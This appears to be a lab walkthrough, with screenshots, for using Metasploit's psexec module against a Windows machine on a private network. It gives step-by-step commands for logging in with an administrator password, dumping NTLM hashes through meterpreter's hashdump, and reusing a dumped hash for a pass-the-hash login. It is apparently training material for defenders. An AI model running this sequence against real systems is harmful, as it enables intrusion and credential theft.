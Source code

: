 `ifconfig`

<img width="661" alt="image" src="https://github.com/user-attachments/assets/44e622e5-34b6-4f0e-8547-769e891152e5">

msf6 > `use exploit/windows/smb/psexec`


msf6 exploit(windows/smb/psexec) > `set RHOST 10.10.70.106`

msf6 exploit(windows/smb/psexec) > `set LHOST 10.10.117.128`


msf6 exploit(windows/smb/psexec) > `set SMBUSER Administrator`

msf6 exploit(windows/smb/psexec) > `set SMBPASS password1234`

It should look lie this:

<img width="1139" alt="image" src="https://github.com/user-attachments/assets/9eb2b530-b318-4636-a111-5d6cbe73a906">

Now dump the password hashes:

meterpreter > `hashdump`

<img width="1139" alt="image" src="https://github.com/user-attachments/assets/b3bbe145-51ab-4029-aefe-e036351af4fa">

meterpreter > exit -y


msf6 exploit(windows/smb/psexec) > `set SMBPASS aad3b435b51404eeaad3b435b51404ee:30ee6993157208a29fb730af8bcc3dfe`


<img width="1143" alt="image" src="https://github.com/user-attachments/assets/14882bb7-6891-4898-8dea-bc8023fd5930">

msf6 exploit(windows/smb/psexec) > `exploit`

<img width="1096" alt="image" src="https://github.com/user-attachments/assets/a0025016-882b-409c-90e1-ade208a19f7e">

Kill it


meterpreter > `exit -y`



Now, back at the Windows Powershell, re-enable your firewall


PS C:\Users\Administrator> `netsh advfirewall set allprofiles state on`

Then re-run the attack!!

<img width="1142" alt="image" src="https://github.com/user-attachments/assets/0cf9fa38-e3e3-419c-a346-576c90f6074c">












